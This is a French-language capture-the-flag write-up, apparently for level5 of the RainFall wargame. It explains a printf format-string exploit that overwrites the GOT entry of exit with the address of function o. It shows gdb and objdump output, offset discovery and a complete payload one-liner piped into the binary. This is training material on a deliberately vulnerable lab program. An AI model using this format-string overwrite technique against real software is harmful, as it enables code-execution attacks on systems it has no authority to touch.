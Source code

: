 # Solution : 

```
(python -c 'print("\x38\x98\x04\x08" + "%134513824x" + "%4$n")'; cat) | ./level5
```

## Explication du level

Ici le niveau est le meme que les precedent sauf que au lieu d'utiliser un printf format exploit, pour ecrire dans une variable ou autre on va directment overwrite l'adresse d'une fonction de la libc , "exit" son adresse se situe dans la global offset table (GOT).

------------------------------------------------------------------------------------------------
Adresse de o :

level5@RainFall:~$ gdb ./level5 
(gdb) p &o
$1 = (<text variable, no debug info> *) 0x80484a4 <o>

------------------------------------------------------------------------------------------------

Adresse de exit dans la Got (global offset table) :

Technique 1 : 
```
level5@RainFall:~$ objdump -R level5 

level5:     file format elf32-i386
DYNAMIC RELOCATION RECORDS
OFFSET   TYPE              VALUE 
08049814 R_386_GLOB_DAT    __gmon_start__
08049848 R_386_COPY        stdin
08049824 R_386_JUMP_SLOT   printf
08049828 R_386_JUMP_SLOT   _exit
0804982c R_386_JUMP_SLOT   fgets
08049830 R_386_JUMP_SLOT   system
08049834 R_386_JUMP_SLOT   __gmon_start__
08049838 R_386_JUMP_SLOT   exit
0804983c R_386_JUMP_SLOT   __libc_start_main
```
Technique 2 :
```
level5@RainFall:~$ gdb ./level5

(gdb) info function exit
All functions matching regular expression "exit":

Non-debugging symbols:
0x08048390  _exit
0x08048390  _exit@plt
0x080483d0  exit
0x080483d0  exit@plt

(gdb) x/i 0x080483d0
   0x80483d0 <exit@plt>:	jmp    *0x8049838
```
------------------------------------------------------------------------------------------------
On recupere l'offset :
```
level5@RainFall:~$ python -c 'print("AAAA" + " %p " * 8)'| ./level5 
AAAA 0x200  0xb7fd1ac0  0xb7ff37d0  0x41414141  0x20702520  0x20702520  0x20702520  0x20702520
```
On converti l'adresse o en decimal : 

En hexadecimal  : 0x80484a4
En decimal      : 134513828

------------------------------------------------------------------------------------------------

## Payload
On cree notre payload :

Offset : 4
Adresse de o : 0x80484a4 || 134513828
Adresse de exit dans la GOT : 0x8049838

[Adress de exit dans la got] + [Padding pour overwrite a l'adresse de o] + [Argument que l'on veut overwrite]
```
(python -c 'print("\x38\x98\x04\x08" + "%134513824x" + "%4$n")'; cat) | ./level5
```
On retire 4 a l'adresse de o, pour que adresse de exit + 134513824 = adresse de o

